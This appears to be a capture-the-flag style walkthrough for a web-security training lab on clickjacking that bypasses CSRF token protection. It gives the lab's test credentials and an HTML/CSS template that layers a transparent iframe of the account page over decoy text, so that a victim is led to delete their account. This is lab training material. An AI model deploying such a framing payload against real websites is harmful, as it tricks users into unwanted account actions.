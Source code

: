 ## Clickjacking with CSRF token Protection

![Masked inline frame illustration](images/click11.png)\



![Masked inline frame illustration](images/click12.png)\

### So lets start With Click on the Access labs
To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

![Masked inline frame illustration](images/click18.png)\


### Firstly Click on My account Section

In my account section You can log in to your own account using the following credentials: wiener:peter


### IN Lab Click on Go to Exploit the server
We assume that you a basic knowledge of HTML head and CSS...

![Masked inline frame illustration](images/click13.png)\

```markup
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Soo we further procced


**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**
![Masked inline frame illustration](images/click13.png)\
![Masked inline frame illustration](images/click15.png)\
![Masked inline frame illustration](images/click14.png)\

**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**

![Masked inline frame illustration](images/click17.png)\

![Masked inline frame illustration](images/click16.png)\

